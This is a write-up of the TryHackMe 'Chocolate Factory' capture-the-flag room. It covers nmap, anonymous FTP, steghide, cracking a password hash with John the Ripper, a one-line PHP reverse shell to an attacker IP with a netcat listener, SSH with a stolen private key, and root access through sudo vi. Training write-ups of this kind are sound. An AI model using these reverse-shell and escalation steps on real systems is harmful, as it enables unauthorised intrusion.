








## TryHackMe | Chocolate Factory

### Step 1: Reconnaissance

Start with an nmap scan against the target machine: 

```
nmap -sV -sC [Target IP]
```
We use -sV for a more verbose response, and -sC for standard scripts. Additionally, if you'd like to put the output into a file, you can add -oN [filename].



When our scan finishes, we'll see ports 21, 22, 80, 100, 106, 109, 110, 111, 113, 119, and 125 open. 21 is the port for FTP, and it looks like it allows anonymous login, so we're going to try that first.

```
ftp [Target IP]
```
Make sure to long in as Anonymous! Once we're logged in, you can see there's a file called gum_room.jpg. We can grab that file by using the ```get [file]``` command and exit ftp.



### Steganography

There's gotta be some sort of information on this image, otherwise why would it be there? Information that's hidden in files such as images or videos is called steganography. The first thing we should do is use the exif tool to get the metadata from the image.

```
exiftool gum_room.jpg
```
We don't find anything super useful here so try using ```steghide``` instead.

```
steghide extract -sf gum_room.jpg

-sf for select stego file
```

The steghide tool will extract the contents of the image into a .txt file, which seems to be encoded with base64.



We can use the following command to decode the contents:
```
cat b64.txt | base64 -d > [new file]
```
If you check the contents of the file, you'll notice we've found the username and hashed password for the user "charlie."

So lets see if we can crack this hashed password. Start up John the Ripper.
```
john --wordlist=/usr/share/wordlists/rockyou.txt [file w/ password hash]
```
Once john is finished, we now have our password for the user charlie!

### Accessing the Target Machine and Question 1

We can try logging in with ssh, but once you do, it'll require a key as well with the password. So lets go check out the web server we found in our nmap scan.


We have a login prompt! Let's use the credentials we just cracked, and it should let us log in.

Once logged in, the page just gives us a spot to enter and execute commands. Lets try getting a php reverse shell going. You can find options to try by going to: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

First, open a listener on your machine:
```
nc -lvnp [port]
-l for listener
-v for verbose
-n for no DNS lookups
-p for port
```

Then edit the reverse shell line with your ip address and port that you opened, which in this case will be the php reverse shell:
```
php -r '$sock=fsockopen("10.10.145.135",9000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Paste it into the command prompt on the webserver, hit execute, and you should be in!



Once we're in, list the contents of the current working directory, and there's an interesting file called rev_key_rev. If we cat out the contents of that file, it looks like absolutely nothing. But lets try using ```strings``` to see if there's any important strings in the file. It just so happens that our key is in this file!

### User Flag

First thing's first, since we already have the login credentials, we can go ahead and change our user to charlie.
```
su charlie
```
Unfortunately, it's asking us to do so from a terminal. So go to the /home/charlie directory, and you'll find our first flag, teleport and teleport.pub. User.txt is only readable if we become the charlie user. 



If we check teleport, it's actually a private key! If you remember, that's actually exactly what we needed to ssh into the system as charlie earlier. Lets copy that to our system and ssh in so we can act as the charlie user.

Make a file called id_rsa, paste the private key contents into it, and do ```chmod 600 id_rsa```. We're now ready to ssh in.

```
ssh -i id_rsa charlie@targetIP
```
We are now charlie, and can grab the user.txt flag!



### Root Flag

Now it's time to escalate our privileges to root.

Firstly, we want to see what commands we can run as sudo.
```
sudo -l
```

Looks like we can run vi as sudo! Let's check and see if there's any privilege escalation methods on https://gtfobins.github.io. Sure enough, it's pretty simple!



We can just copy and paste that command into our terminal, and we are now root! Once we head to the /root/ directory, we'll notice there's a script called ```root.py```
Run it and see what happens!



Hint: the key is the answer we got for #1.

## Congratulations on completing the Chocolate Factory Room!
